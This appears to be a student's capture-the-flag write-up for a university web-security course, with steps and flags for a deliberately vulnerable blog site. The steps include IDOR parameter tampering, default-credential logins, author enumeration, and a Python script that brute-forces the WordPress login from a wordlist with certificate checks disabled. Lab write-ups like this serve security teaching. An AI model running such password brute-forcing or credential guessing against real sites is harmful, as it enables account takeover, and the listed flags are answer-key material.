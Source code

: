 # Revision Notes / Challenges Write-ups

## Blog
### Recon
#### COMP6443{ivefinallyfoundsomeone}
1. Check `robots.txt`.

### IDOR
#### COMP6443{hiddenpostflag}
#### COMP6443{restructuringisonthecards}
#### COMP6443{strongpasswordsaregreat}
1. Click on *Scott* post.
2. Pay attention to the url `https://blog.quoccabank.com/?p=42`.
3. Give the parameter *b* some random values, e.g. : `https://blog.quoccabank.com/?p=67`. This will redirect to a search page. 
4. Search for keywords like *admin*, *flag*, *COMP6443*.

### Security misconfigurations
#### COMP6443{strongpasswordsaregreat}
1. Go to the *COMP6443{hiddenpostflag}* page, click the hyperlink, *your dashboard*. This redirects to a login page. 
2. Login as username: *admin* and password: *admin*. 

#### COMP6443{Ifoundsarah}
1. Login as username: *sarah* and password: *quocca*. 

### IDOR + Security misconfigurations
#### COMP6443{Ialsofoundtimmy}
1. Pay attention to the url of the *admin* page: `https://blog.quoccabank.com/?author=1`.
2. Brute-force the value of the parameter, *author* and notice the page title.
3. For `https://blog.quoccabank.com/?author=5`, the page title tells that the *author id* belongs to the administrator. 
4. Brute-force the password with username: *administrator*. 
   - Burp Suite Intruder
   - Script

```python
import requests
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

fp = open('words.txt')
words = fp.readlines()
for word in words:
    word = word.strip()
    data = {}
    data["log"] = "administrator"
    data["pwd"] = word
    print(f"Trying password: {word}")
    # allow_redirects set to False so that it won't redirect to the next page and return the wrong status code
    r = requests.post(f"https://blog.quoccabank.com/wp-login.php", allow_redirects=False, proxies=proxies, verify=False, data=data)
    print(r.status_code)
    # Will only redirect (status code = 302) when success
```